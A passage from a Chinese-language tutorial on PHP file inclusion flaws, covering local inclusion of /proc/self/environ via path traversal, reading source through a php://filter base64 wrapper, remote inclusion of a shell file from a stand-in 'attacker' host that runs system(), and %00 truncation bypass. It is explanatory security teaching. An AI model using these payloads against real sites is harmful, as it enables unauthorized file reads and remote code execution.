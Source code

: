 ```css
```

#### 包含/proc/self/environ文件

#### 条件

```
未配置open_basedir
```

这是一个更通用的方法，不需要猜测路径

```
http://www.website.com/view.php?page=../../../../../proc/self/environ
```

#### 包含上传的临时文件（RFC1867）

前提：LFI文件包含漏洞、需要一个服务端的phpinfo页面

#### 包含其他应用创建的文件

如数据库文件，缓存文件，应用日志等

#### 读取PHP源码文件

传入的file可能经过部分过滤，但可以使用php://fileter来获取文件

```
php://filter/read=convert.base64-encode/resource=
```

### 1.3、远程文件包含

举例：

```
<?php>
if ($route == "share"){
require_once $basePath . '/action/m_share.php';}
elseif ($route == "sharelink"){
require_once $basePath . '/action/m_sharelink.php';}
可构造url:/?param=http://attacker/phpshell.txt?
则代码执行require_once ‘http://attacker/phpshell.txt?/action/m_share.php'
？后面的代码被解释称querystring，也是一种截断，也可以换成%00
```

远程文件包含也可以执行命令，比如上面的phpshell.txt的内容如果是：

```
<?php echo system("ver;");?>
```

### 1.4、绕过

#### %00截断

如示例三，对包含的文件指定了目录’./action/’，也指定了文件后缀为’.php’。如要绕过该限制可以使用%00截断。
